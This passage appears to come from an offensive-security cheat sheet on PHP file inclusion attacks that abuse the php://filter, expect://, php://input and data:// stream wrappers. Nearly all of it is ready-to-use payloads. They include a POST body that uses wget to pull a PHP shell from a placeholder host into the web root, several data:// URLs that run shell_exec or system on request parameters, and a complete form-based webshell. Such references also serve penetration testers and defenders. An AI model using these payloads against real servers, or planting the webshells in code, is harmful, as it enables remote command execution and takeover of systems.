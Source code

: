 A famous one is `index.php?page=php://filter/read=convert.base64-encode/resource=config`, this filter will encode the page in base64 and show the result like if we have done `index.php?page=config` and then base64 it.

### expect://

A rare but very useful wrapper is `expect://`, it allows execution of system commands via php. But it is not enabled by default, an extension needs to be installed.

```
http://example.com/index.php?file=expect://ls
```

### php://input

`php://input` allows to send payload via POST request.

Request:
```
http://example.com/index.php?file=php://input
```

Post data (uploading a webshell):
```
<?php system('wget http://x.x.x.x/php-shell.php -O /var/www/html/shell.php'); ?>
```

Post data (getting server infos):
```
<?php phpinfo(); ?>
```

### data://

`data://` can be used to include executable PHP code.

```
http://example.com/index.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA2fPg%3d%3d
```

or
```
http://example.com/index.php?file=data:text/plain;,<?php echo shell_exec($_GET['cmd']);?>
```

Another payload can be `<?php phpinfo(); die();?>`, the die statement will prevent the execution of the rest of the script or the execution of the incorrectly decoded extension appended to the stream.

A more usable PHP payload webshell:
```
<form action="<?=$_SERVER['REQUEST_URI']?>" method="POST"><input type="text" name="x" value="<?=htmlentities($_POST['x'])?>"><input type="submit" value="cmd"></form><pre><? echo `{$_POST['x']}`; ?></pre><? die(); ?>
```

To directly execute a command the data request + payload may be: `data:,<?system($_GET['x']);?>&x=ls` or `data:;base64,PD9zeXN0ZW0oJF9HRVRbJ3gnXSk7Pz4=&x=ls`.
